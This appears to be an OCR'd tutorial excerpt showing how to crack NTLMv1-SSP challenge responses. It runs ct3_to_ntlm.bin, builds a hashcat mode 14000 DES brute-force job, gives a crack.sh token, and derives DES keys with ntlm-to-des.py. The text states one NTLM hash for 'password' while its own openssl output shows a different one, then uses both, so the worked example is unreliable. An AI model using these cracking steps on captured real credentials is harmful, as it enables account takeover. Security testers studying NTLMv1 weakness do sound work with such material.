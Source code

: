 ```
./ct3_to_ntlm.bin 2BBD6C9ABCD021D0 1122334455667788 85D5BC2CE95161CD00000000000000000000000000000000

To crack with hashcat create a file with the following contents:
892F905962F76D32:b36d2b9a8607ea77
3837F613F88DE27C:b36d2b9a8607ea77

To crack with hashcat:
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1

To Crack with crack.sh use the following token
$NETLM$b36d2b9a8607ea77$892F905962F76D323837F613F88DE27C2BBD6C9ABCD021D0
```

Now the password we are using in this case is password which has and ntlm hash of ```b4b9b02e6f09a9bd760f388b67351e2b```
```
echo -n password | iconv -f utf8 -t utf16le | openssl dgst -md4
(stdin)= 8846f7eaee8fb117ad06bdd830b7586c
```

So to calculate the last 4 characters of the ntlm hash for our NTLMv1-SSP chalenge we use the following command from the tool output to get ```586c```
```
./ct3_to_ntlm.bin 2BBD6C9ABCD021D0 1122334455667788 85D5BC2CE95161CD00000000000000000000000000000000
```

We must make a hash file with the following content according to the tool which has the modified SRV Challenges to deal with SSP
```
892F905962F76D32:b36d2b9a8607ea77
3837F613F88DE27C:b36d2b9a8607ea77
```

To crack with hashcat we use the following according to the tool
```
./hashcat -m 14000 -a 3 -1 charsets/DES_full.charset --hex-charset hashes.txt ?1?1?1?1?1?1?1?1
```

Now assuming we already knew what the ntlm hash was in the case because we made it and want to validate the tooling we use the following
```
python ntlm-to-des.py --ntlm b4b9b02e6f09a9bd760f388b67351e2b
```

This will output some data for us
```
DESKEY1: b55d6d04e67926
DESKEY2: bcba83e6895b9d

echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```

The important part here is
```
echo b55d6d04e67926>>des.cand
echo bcba83e6895b9d>>des.cand
```

